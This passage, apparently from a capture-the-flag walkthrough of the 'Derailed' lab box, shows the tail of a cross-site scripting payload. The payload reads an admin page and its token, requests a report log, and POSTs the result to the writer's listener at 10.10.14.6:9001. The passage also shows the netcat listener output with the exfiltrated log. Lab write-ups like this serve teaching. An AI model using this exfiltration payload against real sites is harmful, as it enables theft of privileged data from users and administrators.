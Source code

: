 ```
    .then(html => {
      console.log(html);
      fetch('http://10.10.14.6:9001/', {
        method: "POST",
        body: html,
      })
    });
  })

```

This will read the `/administration` page, and get the token from it. Then it will send a POST to `/administration/reports` requesting the log file. The result will be sent back to me in a POST. After saving this, I’ll submit the report again, and the file hits my `nc` listening on 9001, with a log file showing the id of the note and the complaint about it:

```

oxdf@hacky$ nc -lvnp 9001
Listening on 0.0.0.0 9001                                           
Connection received on 10.10.11.190 38260                           
POST / HTTP/1.1                                                     
Host: 10.10.14.6:9001
Connection: keep-alive                                              
Content-Length: 402                                                 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36            
Content-Type: text/plain;charset=UTF-8                              
Accept: */*                                                         
Origin: http://derailed.htb:3000                                    
Referer: http://derailed.htb:3000/                                  
Accept-Encoding: gzip, deflate                                      
Accept-Language: en-US                                              
               
1,alice smells
1,<b>
143,aaa
143,sdfdsaf
143,asdasdasd
143,asdsad
143,asdasd
143,asdas
143,asdasd
143,asdasd
143,asdasd
143,asdas
143,asdasd
143,asd
143,asda
143,asdsadas
143,asdasdasd
143,sdffsd
143,sad
143,asdasd
143,asdas
143,asd
143,asd

```
